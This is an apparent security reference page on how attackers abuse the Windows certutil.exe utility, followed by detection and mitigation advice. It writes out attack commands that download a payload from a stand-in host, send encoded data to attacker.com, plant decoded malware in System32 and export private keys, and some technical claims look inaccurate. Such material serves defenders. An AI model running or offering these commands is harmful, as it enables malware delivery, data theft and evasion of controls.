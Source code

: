 # certutil.exe
## What is it?
*```certutil.exe``` is a **built-in Windows command-line utility** used for managing certificates and PKI (Public Key Infrastructure) operations.*  
*It allows users to **install, verify, export, import, and delete certificates**, making it a crucial tool for system administrators.*  

*Because it is a **trusted Microsoft binary**, attackers can **abuse it** for **data exfiltration, malware delivery, persistence, and credential theft** while bypassing security controls.*

## Legitimate Usage
- **Manage Certificates** → Install, delete, and validate certificates.
- **Retrieve CA Information** → Query and configure Certificate Authorities.
- **Convert Certificate Formats** → Encode and decode certificates (Base64, DER).
- **Check Revocation Lists (CRLs)** → Verify certificate validity.
- **Back up and Restore Certificates** → Export/import certificates for system recovery.

## How to abuse it
- **Download & Execute Malware** → Fetch payloads from the internet via ```certutil.exe -urlcache -f```.
- **Obfuscate & Encode Data** → Hide malicious code using Base64 encoding.
- **Exfiltrate Sensitive Data** → Convert files into Base64 and exfiltrate them via HTTP.
- **Bypass Security Controls** → Use a **trusted binary** (LOLBas) to evade detection.
- **Credential Dumping** → Extract certificates that store private keys for authentication.
- **Remove Security Logs** → Modify or delete certificates used for logging and security enforcement.

## Example Attacks
### 1. Download & Execute Malware
*Attackers use ```certutil.exe``` to download malicious payloads from the internet.*

```
certutil -urlcache -split -f http://malicious.com/payload.exe payload.exe
```

**Effect:**
- Downloads ```payload.exe``` from ```http://malicious.com```.
- **Bypasses security tools** that block common downloader scripts.

### 2. Obfuscate and Encode Malware (Base64)
*Attackers encode malware using Base64 to evade detection.*
**Encode File in Base64**

```
certutil -encode malware.exe encoded.txt
```

**Decode Base64 File**

certutil -decode encoded.txt decoded.exe

**Effect:**
- Hides malware as a harmless Base64 text file.
- Prevents detection by antivirus tools that scan executables.

### 3. Data Exfiltration via Base64 Encoding
*Attackers steal sensitive data by encoding it into Base64 and sending it over HTTP.*

```
certutil -encode C:\SensitiveData.txt encodedData.txt certutil -urlcache -split -f http://attacker.com/upload encodedData.txt
```

**Effect:**
- Converts **stolen data** into an **innocent-looking text file**.
- Uploads the encoded data to an **attacker-controlled server**.

### 4. Bypassing Application Whitelisting
*Security policies often allow certutil.exe to run since it is a trusted Microsoft binary.*
**Copy Malware to a Trusted Location**

```
certutil -decode malware.b64 C:\Windows\System32\trusted.exe
```

**Effect:**
- Drops malware into a **whitelisted directory**, bypassing security restrictions.

### 5. Credential Theft (Exporting Certificates with Private Keys)
*Attackers extract certificate-based authentication credentials to impersonate users.*

```
certutil -exportPFX MY stolen.pfx
```

**Effect:**
- Exports **authentication certificates** with **private keys**, enabling **pass-the-cert attacks**.

### 6. Clearing Security Logs (Tampering with Certificates)
*Attackers modify or delete security-related certificates to disrupt monitoring.*

```
certutil -delstore MY "SecurityLogCert"
```

**Effect:**
- Removes **logging certificates**, disrupting **security monitoring**.

## Detection & Mitigation
### Detection Methods
**Monitor Network-Based Abuse**
- **Detect unauthorized internet access using certutil.exe** (e.g., downloading payloads).
- **Event ID 4688 (Process Creation)** → Look for suspicious command-line usage.

**Check for Unexpected Certificate Activity**
- **Event ID 4886 & 4887 (Certificate Issuance/Denial)** → Monitor unusual certificate requests.
- **Event ID 4769 (Kerberos Authentication Ticket Request)** → Look for pass-the-cert attacks.

**Detect Base64 Encoding/Decoding**
- **Look for encoded files in ```C:\Users\Public\``` or temp folders.**
- **Monitor commands with ```certutil -encode``` or ```certutil -decode``` in logs.**

### Mitigation Strategies
- **Restrict Internet Access for certutil.exe** → Block outgoing network requests.
- **Use Application Control (AppLocker, WDAC)** → Prevent abuse of ```certutil.exe```.
- **Limit Certificate Export Permissions** → Restrict access to **private keys**.
- **Monitor File & Process Activity** → Track unusual Base64 encoding/decoding.
